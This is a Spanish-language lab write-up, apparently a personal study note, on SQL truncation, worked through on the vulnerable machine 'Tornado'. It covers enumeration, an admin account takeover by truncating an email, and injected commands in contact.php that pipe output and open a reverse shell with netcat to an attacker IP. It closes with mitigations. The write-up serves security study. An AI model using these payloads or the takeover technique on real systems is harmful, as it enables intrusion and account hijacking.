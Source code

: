 
# 🧠 Ataque de Truncado SQL (SQL Truncation)

El ataque de **SQL Truncation** explota el hecho de que algunos servidores de bases de datos o aplicaciones web **limitan la longitud de ciertos campos**, como `username` o `email`, **truncando** (cortando) los datos que exceden ese límite. Esta técnica puede ser usada, por ejemplo, para **suplantar cuentas de administradores**, sobrescribiendo sus credenciales al aprovechar dicho truncamiento.

---

## 🎯 Concepto clave

> Si una aplicación impone un límite de longitud (por ejemplo, 13 caracteres para el campo "email"), y el servidor **trunca el input en lugar de rechazarlo**, podemos explotar esta discrepancia para modificar usuarios ya existentes.

---

## 🧪 Parte práctica — Máquina *Tornado*

---

### 🛰️ Enumeración inicial

Escaneamos la red para encontrar la IP de la máquina víctima:

```sh
arp-scan -I <interfaz> --localnet --ignoredups
```

Una vez detectada, realizamos **fuzzing de directorios** con [[gobuster]]:

```sh
gobuster dir -u http://<ip> -w <diccionario> -t 20
```

📁 Encontramos la ruta `/bluesky/`.

Buscamos archivos `.php`:

```sh
gobuster dir -u http://<ip>/bluesky -w <diccionario> -t 20 -x php
```

Hallamos dos archivos importantes:

- `login.php`
    
- `signup.php` ← **interesante para analizar validaciones**
    

---

### 🔐 Signup con validación vulnerable

En `signup.php`, notamos que el input de correo tiene una **longitud máxima de 13 caracteres**. Probamos crear un usuario legítimo con:

- `email: prueba123@tst`
    
- `contraseña: test123`
    

Al registrarnos, el home muestra que el _LFI ha sido parcheado_, pero al ver el código fuente (`Ctrl + U`) aparece una **ruta completa**:

> `/home/tornado`

---

### 🧭 Exploración con ~/

Sabemos que en servidores Apache, la ruta `~/usuario/` hace referencia a `/home/usuario`.

```http
http://<ip>/~/tornado/
```

Navegando ahí encontramos un archivo:

```txt
imp.txt
```

![[Pasted image 20250509041206.png]]

🔎 Contiene **una lista de correos** como `admin@tornado`, `ceo@tornado`, etc., que nos dan nombres de usuarios importantes.

---

### 💣 Ataque de truncado SQL

Supongamos que el servidor trunca los campos a 13 caracteres exactos. El correo `admin@tornado` tiene **13 caracteres justos**.

Si intentamos registrarnos con ese correo, fallará por estar registrado. Pero si **modificamos el HTML desde el navegador** para permitir más caracteres, podemos hacer esto:

```txt
email: admin@tornado  a
clave: hacked
```

📌 Al enviarlo, el servidor **truncará el email a los primeros 13 caracteres** (`admin@tornado`) y actualizará el usuario existente, ¡cambiando la contraseña del administrador a `hacked`!

---

## 🛠️ Acceso al panel admin

Desde el panel admin, encontramos una sección **"Contact"**, que apunta a `contact.php`. Aparentemente, permite ejecutar comandos con `exec()` en PHP.

---

### 🎧 Reverse Shell (sin visibilidad)

La ejecución no retorna salida en el frontend, pero podemos usar **Netcat** para capturarla desde nuestra máquina atacante:

```sh
nc -nlvp 443
```

Y en el campo del `POST` coment de `contact.php`, enviamos:

```sh
test; whoami | nc <ip_atacante> 443
```

✅ Vemos que el output es `www-data`.

---

### 🐚 Shell interactiva

Ahora podemos obtener acceso a shell directamente:

```sh
test; nc -e /bin/bash <ip_atacante> 443
```

Y si necesitamos un entorno TTY usable:

```sh
script /dev/null -c bash
```

---

## 📄 Código vulnerable (`contact.php`)

```php
$cmd = $_POST['comment'];
echo $cmd;
exec($cmd);
```

> ❗ ¡Claramente vulnerable a ejecución remota de comandos!

---

## 🧷 Resumen

| Paso                      | Descripción                    |
| ------------------------- | ------------------------------ |
| Descubrimiento de IP      | Escaneo ARP                    |
| Fuzzing de rutas          | Gobuster                       |
| Detectar límite en signup | Longitud de input = 13         |
| Truncado de correo        | Se sobrescribe `admin@tornado` |
| Reverse shell             | `exec()` + Netcat              |

---

## 🚨 Mitigaciones recomendadas

- Validar longitudes de campos **tanto del lado cliente como servidor**.
    
- No truncar silenciosamente: **rechazar entradas largas** explícitamente.
    
- En bases de datos, asegurar unicidad y uso de `BINARY` si aplica (MySQL).
    
- Nunca ejecutar directamente entradas del usuario (`exec()` sin sanitizar).
    

---

## 🧷 Tags

#sqltruncation #ciberseguridad #vulnerabilidades #web #php #netcat #reverse_shell #fuzzing #apache #exploit

[[OWASP]]
[[gobuster]]
[[netcat]]